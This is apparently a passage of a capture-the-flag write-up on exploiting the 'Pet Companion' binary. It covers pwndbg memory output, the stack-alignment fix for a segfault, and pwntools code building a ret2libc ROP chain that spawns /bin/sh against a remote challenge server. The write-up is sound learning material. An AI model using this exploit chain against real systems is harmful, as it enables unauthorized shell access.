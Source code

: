 ```
      0x7ffff7e2b000     0x7ffff7e2c000     0x1000        0x0  rw-p   
      0x7ffff7ff7000     0x7ffff7ff9000     0x2000        0x0  rw-p   
      0x7ffff7ff9000     0x7ffff7ffd000     0x4000        0x0  r--p   [vvar]
      0x7ffff7ffd000     0x7ffff7fff000     0x2000        0x0  r-xp   [vdso]
      0x7ffffffde000     0x7ffffffff000    0x21000        0x0  rw-p   [stack]

pwndbg> find 0x7ffff7800000,0x7ffff79e7000,"/bin/sh"
	0x7ffff79b3d88
	1 pattern found.

```

I get a segfault exactly like in Rocket Blaster...

And this time, i know why !

I found this article:
https://valsamaras.medium.com/introduction-to-x64-binary-exploitation-part-2-return-into-libc-c325017f465

Here is what is (and was) happening:
```
The 64 bit calling convention requires the stack to be 16-byte aligned before a `call` instruction but this is easily violated during ROP chain execution, causing all further calls from that function to be made with a misaligned stack. `movaps` triggers a general protection fault when operating on unaligned data, **so try padding your ROP chain with an extra** `**ret**` **before returning into a function or return further into a function to skip a** `**push**` **instruction** [4].
```

The program SEGFAULT on this line:
```
 ► 0x7ffff784f2d6    movaps xmmword ptr [rsp + 0x40], xmm0
```

So this kinda looks like the same issue :)

So i added a padding 'ret' at the start of my payload:
```python
    # Searching for "ret" inside binary
    ret = rop.find_gadget(['ret']).address
    print("ret; addr found:", hex(ret))

    # Building our paylaod
    payload += p64(ret)
    payload += p64(pop_rdi_ret)
    payload += p64(bin_sh)
    payload += p64(system_addr)
    payload += p64(exit_addr)
```


```python
DELETE ME
from pwn import *

LOCAL_FILE_PATH: str = "./pet_companion"
REMOTE_SERVER = "83.136.254.223"
REMOTE_PORT = 31013
libc=ELF("./glibc/libc.so.6", checksec=False)
elf = ELF(LOCAL_FILE_PATH)
rop=ROP(elf)

def pwn_pet_compagnion(proc):
    proc.recvuntil(b"[!] Set your pet companion's current status: ")
    payload = b"A"*72
    
    # This doesn't work because of NX
    # payload += p64(0x7fffffffdc98)
```